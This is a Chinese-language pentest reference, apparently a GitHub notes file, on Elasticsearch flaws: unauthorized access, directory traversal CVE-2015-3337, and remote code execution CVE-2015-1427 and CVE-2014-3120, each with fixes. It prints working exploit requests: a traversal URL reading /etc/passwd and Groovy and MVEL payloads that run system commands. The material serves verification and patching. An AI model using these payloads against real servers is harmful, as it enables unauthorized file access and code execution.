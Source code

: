 # elasticsearch

## 一、elsaticsearch未授权访问漏洞
### 漏洞说明
Elasticsearch服务普遍存在一个未授权访问的问题，攻击者通常可以请求一个开放9200或9300的服务器进行恶意攻击。

### 影响范围
/

### 验证方法
**手工验证**
http://localhost:9200/_cat/indices
http://localhost:9200/_river/_search 查看数据库敏感信息
http://localhost:9200/_nodes 查看节点数据

**pocsuite**
poc_elasticsearch_unauth.py

### 利用方法
/

### 修复方法
1. 限制IP访问，绑定固定IP
2. 在config/elasticsearch.yml中为9200端口设置认证：
```vim
http.basic.enabled true #开关，开启会接管全部HTTP连接
http.basic.user "admin" #账号
http.basic.password "admin_pw" #密码
http.basic.ipwhitelist ["localhost", "127.0.0.1"]
```

## 二、目录遍历漏洞（cve-2015-3337)
### 漏洞说明
安装 “site” 功能的插件后，插件目录使用…/ 向上跳转，导致目录穿越漏洞，可读取任意文件。未安装 site 功能插件的不受影响  
/_cat/plugins：查看所有已安装的插件

### 影响范围
1.4.5以下/1.5.2以下

### 验证方法
一般复现以 head 插件为例，若查看存在 head 插件，burp  
访问

```
http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd
```
参考：https://blog.csdn.net/qq_36374896/article/details/84145527

### 利用方法
/
### 修复方法
升级elasticsearch版本

## 三、CVE-2015-1427 任意命令执行
### 漏洞说明
ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过； 2.是一个Goovy代码执行漏洞。
### 涉及范围
es 1.4.2
### 验证方法
**手工验证**
1. 插入数据：
```
POST /website/blog/ HTTP/1.1
Host: ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
{
  "name": "test"
}

```
2. 执行 JAVA 代码
```
POST /_search?pretty HTTP/1.1
Host: ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 489
{
    "size":1,
    "script_fields": {
        "test#": {  
            "script":
                "java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getInputStream())).readLines()",
            "lang": "groovy"
        }
    }
}
```
3. 利用 Groovy 执行命令

```
POST /_search?pretty HTTP/1.1
Host: 192.168.91.130:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156
{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```
### 修复方式
升级es版本



## 四：cve-2014-3120 命令执行
### 漏洞说明
老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。
### 涉及范围
es:1.1.1


### 验证方法
1. 加入一条数据
```
POST /website/blog/ HTTP/1.1
Host: 192.168.15.130:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
{
  "name": "phithon"
}

```

2. 代码执行

```
POST /_search?pretty HTTP/1.1
Host: 192.168.15.130:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

### 修复方式
升级es版本
